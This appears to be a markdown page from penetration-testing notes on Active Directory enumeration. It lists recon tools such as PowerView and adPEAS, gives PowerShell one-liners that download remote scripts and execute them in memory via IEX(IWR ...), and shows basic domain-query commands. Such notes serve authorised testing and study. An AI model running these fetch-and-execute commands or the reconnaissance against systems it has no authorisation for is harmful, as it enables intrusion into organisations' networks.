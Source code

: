 ## Enumeration Tools

* **adPEAS:** https://github.com/61106960/adPEAS
* **Invoke-ADEnum:** https://github.com/Leo4j/Invoke-ADEnum
* **PowerUpSQL:** https://github.com/NetSPI/PowerUpSQL
* **PowerView:** https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1

>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).

```powershell
# adPEAS
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1);Invoke-adPEAS
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS-Light.ps1);Invoke-adPEAS

# Invoke-ADEnum
IEX(IWR -UseBasicParsing https://raw.githubusercontent.com/Leo4j/Invoke-ADEnum/main/Invoke-ADEnum.ps1);Invoke-ADEnum

# PowerUpSQL
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/NetSPI/PowerUpSQL/master/PowerUpSQL.ps1)

# PowerView
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)
```

>**ℹ️ Info:**
>
>The following error: `IWR : The request was aborted: Could not create SSL/TLS secure channel.` can be fixed by forcing PowerShell to use TLS 1.2:: 
>
>`[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12`

---
## Enumeration

>**ℹ️ Info:**
>
>PowerView is used primarily on this page unless stated otherwise.


### Domain Enumeration

```powershell
# Get Domain Information
Get-Domain

# Get Domain Information of different Domain
Get-Domain -Domain <Domain>

# Get Domain SID
Get-DomainSID
```
